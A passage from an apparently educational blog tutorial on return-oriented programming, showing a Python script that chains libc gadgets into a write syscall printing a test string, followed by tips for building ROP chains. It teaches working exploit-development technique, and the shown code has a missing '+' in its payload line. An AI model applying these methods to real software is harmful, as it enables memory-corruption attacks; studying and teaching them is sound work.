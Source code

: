 ```python 
def set_ecx(value):
  # 0x000b5377 : pop ecx ; ret 
  return libc_addr(0x000b5377) + struct.pack('<I', value)

def syscall():
  # 0x00002c87 : int 0x80       
  return libc_addr(0x00002c87)

def generate_rop():
  rop = ''
  rop += set_edx(9)
  rop += set_ebx(1)
  rop += set_ecx(BUFFER_ADDRESS)
  rop += set_eax(4)
  rop += syscall()
  return rop

def main():
  global BUFFER_ADDRESS
  global LIBC_ADDRESS

  if (len(sys.argv) != 3):
    print("usage: " + sys.argv[0] + " <buffer_address> <libc_address>")
    exit(-1)

  BUFFER_ADDRESS = int(sys.argv[1], 16)
  LIBC_ADDRESS = int(sys.argv[2], 16)

  exploit = PRINT_STRING +\
            '\x90' * NOP_SIZE
            generate_rop()

  print(exploit)

if __name__ == '__main__':
  main()

```

Let's run the script and see if we have successfully made a ropchain.

![ropchain successfully run](/assets/2017-12-18-applied-return-oriented-programming-rop/success_rop.png)

We can now see that our ropchain successfully runs because SUCCESS! it printed to standard output.

## Tips for ROP
  * Construct the chain in a script. It is hard to really mess up when your top-level looks like pseudocode.
  * Avoid gadgets with side effects. If you have few options, prefer side effects that ruin registers. If a gadget modifies the stack in an unpredictable way, it may be hard to account for it.
  * Find gadgets in `libc.so`, `ntdll.dll`, or `kernel32.dll`. These large binaries are always in memory. If you can get the base address of these, you get a lot more to choose from.
  * Null bytes are skipped over when `/bin/sh` tries to put them onto standard input. For read() to work with null bytes, you must use file redirection instead of let `/bin/sh` touch the strings. (`./exploit | ./vuln` instead of `./vuln <<< $(./exploit)`)
